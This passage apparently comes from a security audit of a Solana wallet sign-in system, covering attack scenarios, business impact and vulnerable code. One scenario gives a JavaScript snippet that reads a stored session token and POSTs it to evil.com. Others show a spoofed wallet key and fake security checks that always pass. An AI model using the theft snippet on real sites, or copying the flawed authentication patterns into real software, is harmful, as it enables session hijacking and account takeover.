 ### Scenario 3: Cross-Site Scripting (XSS) Session Theft
```javascript
// If XSS exists anywhere on the domain:
const session = localStorage.getItem('siws-session');
fetch('https://evil.com/steal', {
  method: 'POST',
  body: session
});
```

### Scenario 4: Wallet Address Spoofing
```typescript
// Malicious browser extension or compromised wallet
// Can return any address as "connected"
const fakePublicKey = {
  toString: () => 'ADMIN_WALLET_ADDRESS_HERE',
  toBase58: () => 'ADMIN_WALLET_ADDRESS_HERE'
};
```

## Business Impact

- **Unauthorized Access**: Complete bypass of authentication controls
- **Privilege Escalation**: Any user can become admin
- **Data Exposure**: Access to sensitive investigation data
- **Compliance Failure**: Does not meet security standards
- **Reputation Damage**: Security theater creates false confidence

## Detailed Vulnerability Analysis

### Authentication State Security Issues

```typescript
// VULNERABLE: Client-side state
const AuthContext = createContext<AuthContextType>({
  isAuthenticated: false, // Attacker-controllable
  address: null,          // Attacker-controllable
  // ... rest of context
});

// VULNERABLE: Local storage session
const session = JSON.parse(localStorage.getItem('siws-session') || '{}');
```

### Mock Security Implementation

```typescript
// CRITICAL: Mock DID always succeeds
const performAdvancedAuthSecurity = async (walletAddress: string) => {
  // This is completely fake security
  const pqcAuthEnabled = AUTH_SECURITY_CONFIG.PQC_AUTHENTICATION_REQUIRED;
  const didResult = await verifyUserDID(walletAddress); // Always returns true!
  
  return {
    pqcAuthEnabled,
    didVerified: didResult.verified, // Always true
    securityLevel: 'QUANTUM_SAFE',   // Fake quantum safety
    // ... fake security metadata
  };
};
```
